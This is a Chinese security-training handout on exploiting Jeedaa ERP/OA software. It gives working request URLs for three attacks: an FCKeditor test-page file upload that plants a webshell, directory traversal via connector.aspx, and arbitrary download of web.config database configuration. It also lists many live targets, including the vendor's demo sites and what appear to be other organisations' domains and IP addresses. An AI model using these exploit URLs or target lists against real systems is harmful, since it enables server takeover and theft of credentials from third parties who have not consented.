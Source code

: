 ```yaml
---
title: "米斯特白帽培训讲义（v2）实战篇 捷达系统"
id: csdn62039365
---
```


# 米斯特白帽培训讲义 实战篇 捷达系统

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 概述

官网：[http://www.jeedaa.com/](http://www.jeedaa.com/)

主要产品有：

*   捷达ERP
*   捷达OA
*   捷达eHR
*   捷达CRM
*   捷达eFax
*   捷达仓库管理
*   捷达进销存.Net
*   捷达协同办公.Net

均存在能够 GetShell 的漏洞。

这个东西仍旧是闭源的，我们使用它的演示站点，`http://demoerp.jeedaa.com`来进行演示。

## 文件上传

我们用御剑扫一扫。

![](../img/9634077baf0c541b7bb53fbf7397c94e.png)

出现了 FCKEditer。我们访问`/fckeditor`，发现是 403 的。

![](../img/38615176bdb0b07bd50c065d7ab4a538.png)

但是我们扫描`/fckeditor/fckeditor`：

![](../img/7b5b0bdb008aab0d941c2280e85df9b0.png)

发现有三个 200。我们访问`/fckeditor/fckeditor/editor/filemanager/upload/test.html`：

![](../img/18348850835d7f90b3001e63ae4e912e.png)

我们在查看元素里面添加一个 ASPX，然后随便上传一个 ASP 文件上去。获得了该文件的链接。

![](../img/90ffe9ea5f5760ed76fae94996c6b61b.png)

![](../img/1e60e8951e1db62269ff5128060af3b3.png)

部分案例（均为捷达的演示站点）：

*   `http://erp2008v4.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://erp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://qd.jeedaa.net//fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://oa.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://demoerp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://crm.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://shijia.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://lg.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://hj.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`

## 目录遍历

访问`/fckeditor/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=E:/&CurrentFolder=%2F`

![](../img/27c644d04b9133f8b93ab0bae30fa7da.png)

可以改动`CurrentFolder`参数来进入子目录，也可以改动`Type`参数来切换盘符。

## 文件下载

访问`/WebApp/PassportService/download.aspx?p=/AccreditAdmin/Web.config`下载数据库文件：

![](../img/d0acf1e53112cc70d2905e88371ed2d9.png)

部分案例：

*   `http://221.136.81.169/WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`
*   `http://www.nbjyly.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.jobgroup.cn:2013/WebApp/PassportService/download.aspx?p=web.config`
*   `http://erp2008v4.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://erp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://qd.jeedaa.net//WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.130.104.162:8080/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://demoerp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://crm.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://shijia.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://lg.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://hj.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.nbself.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`